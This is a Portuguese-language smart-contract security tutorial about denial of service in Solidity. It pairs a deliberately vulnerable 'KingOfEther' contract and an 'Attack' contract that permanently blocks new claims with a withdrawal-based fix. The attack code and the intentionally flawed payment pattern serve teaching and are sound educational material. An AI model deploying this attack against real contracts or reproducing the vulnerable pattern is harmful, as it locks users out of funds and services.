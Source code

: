 # Recusa de Serviço

#### Vulnerabilidade <a href="#vulnerability" id="vulnerability"></a>

Existem várias formas de invadir um contrato inteligente para torná-lo inutilizável.

Um exploit a ser apresentado aqui é recusa de serviço fazendo com que a função de envio de Ether falhe.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

/*
A meta do KingOfEther é se tornar o rei enviando mais Ether que o rei anterior
O rei anterior receberá a quantia de Ether que ele havia enviado
*/

/*
1. Implemente KingOfEther
2. Alice se torna o rei enviando 1 Ether para claimThrone().
2. Bob se torna o rei enviando 2 Ether para claimThrone().
   Alice recebe o reembolso de 1 Ether.
3. Implemente Attack com endereço do KingOfEther.
4. Chame attack com 3 Ether.
5. O rei atual é o contrato Attack e ninguém mais pode se tornar o rei.

O que aconteceu?
Attack se tornou o rei. Todas as novas tentativas de clamar pelo trono são
rejeitadas já que o contrato Attack não tem uma função fallback, recusando
aceitar Ether enviado de KingOfEther, antes que o novo rei seja definido.
*/

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // Você também pode executar um DOS consumindo todo o gás usando assert.
    // Essa invasão vai funcionar mesmo que o contrato de chamada não confira
    // se a chamada foi bem sucedida ou não.
    //
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```

#### Técnicas Preventivas <a href="#preventative-techniques" id="preventative-techniques"></a>

Uma forma de evitar isso é permitir que os usuários retirem seu Ether ao invés de enviá-lo.

Eis um exemplo.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```
